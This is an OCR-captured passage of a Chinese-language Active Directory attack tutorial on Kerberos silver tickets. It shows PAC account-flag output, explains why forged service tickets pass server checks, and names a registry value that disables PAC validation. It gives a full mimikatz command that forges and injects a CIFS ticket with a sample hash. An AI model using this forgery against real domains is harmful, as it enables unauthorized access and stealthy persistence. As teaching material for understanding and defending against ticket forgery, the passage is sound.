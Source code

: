 ```
                    .... .... .... .... .... 0... .... .... = Encrypted Text Password Allowed: This account does NOT allow encrypted_text_password
                    .... .... .... .... .... .0.. .... .... = Account Auto Locked: This account is NOT auto_locked
                    .... .... .... .... .... ..1. .... .... = Don't Expire Password: This account DOESN'T_EXPIRE_PASSWORDs
                    .... .... .... .... .... ...0 .... .... = Server Trust Account: This account is NOT a server_trust_account
                    .... .... .... .... .... .... 0... .... = Workstation Trust Account: This account is NOT a workstation_trust_account
                    .... .... .... .... .... .... .0.. .... = Interdomain trust Account: This account is NOT an interdomain_trust_account
                    .... .... .... .... .... .... ..0. .... = MNS Logon Account: This account is NOT a mns_logon_account
                    .... .... .... .... .... .... ...1 .... = Normal Account: This account is a NORMAL_ACCOUNT
                    .... .... .... .... .... .... .... 0... = Temp Duplicate Account: This account is NOT a temp_duplicate_account
                    .... .... .... .... .... .... .... .0.. = Password Not Required: This account REQUIRES a password
                    .... .... .... .... .... .... .... ..0. = Home Directory Required: This account does NOT require_home_directory
                    .... .... .... .... .... .... .... ...0 = Account Disabled: This account is NOT disabled
```

## **白银票据**

Ticket中的PAC是双重签名的，第一个由server账户签名，第二个由krbtgt 账户签名。我们无法伪造krbtgt账户的签名，但是当server收到ticket的时候，它通常只验证第一个签名，不会去找KDC验证krbtgt账户的签名，从而我们可以伪造ticket通过认证。或者通过设置如下注册表，让server不请求KDC验证PAC:

*HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters*

*DWORD Value Name: ValidateKdcPacSignature* 

When the DWORD value of this entry is 0, Kerberos does not perform PAC validation on a process that runs as a service.



白银票据不会与DC通信，因此相比黄金票据更隐蔽，是一种很好的权限维持手段；



### [白银票据例子](https://adsecurity.org/?p=2011)：

```
kerberos::golden /domain:ring2.com /sid:S-1-5-21-2475887593-94489213-2292866110 /target:win10-pc2.ring2.com /service:cifs /rc4:0b247d5c4f73feec13228f650b71ac5f /user:test /ptt
```



#### 1. 利用CIFS服务，操作windows admin share
